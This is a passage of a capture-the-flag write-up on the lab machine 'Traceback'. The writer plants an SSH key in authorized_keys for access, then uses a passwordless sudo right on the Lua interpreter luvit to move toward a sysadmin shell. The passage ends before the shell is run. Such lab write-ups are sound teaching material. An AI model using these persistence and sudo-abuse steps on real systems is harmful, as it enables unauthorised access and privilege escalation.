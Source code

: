 We change directory for `/home/webadmin/`. We see that there is a
`.ssh/authorized_keys` file (maybe you need to create it if this doesn't exist,
as I used the public server the folder and the file already existed).
We add our public ssh key to the file and connect using ssh.

    :::text
    ssh 10.10.10.181 -lwebadmin
    The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
    ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
    #################################
    -------- OWNED BY XH4H  ---------
    - I guess stuff could have been configured better ^^ -
    #################################

    Welcome to Xh4H land

    Last login: Thu Mar 26 01:09:32 2020 from 10.10.17.253
    webadmin@traceback:~$

# Getting user

In our home folder we found a note from `sysadmin`, the other system user about
some lua tool.

    :::text
    webadmin@traceback:~$ cat note.txt
    - sysadmin -
    I have left a tool to practice Lua.
    I'm sure you know where to find it.
    Contact me if you have any question.

Looking at our `sudo` right we have the possibility to execute `luvit` as
`sysadmin` without password.

    :::text
    webadmin@traceback:~$ sudo -l
    Matching Defaults entries for webadmin on traceback:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User webadmin may run the following commands on traceback:
        (sysadmin) NOPASSWD: /home/sysadmin/luvit

We deduce that this is a lua interpreter and run some "Hello World" to confirm
it.

    :::text
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit 
    Welcome to the Luvit repl!
    > print("Hello World")
    Hello World

Next we just execute `/bin/sh` using our interpreter.
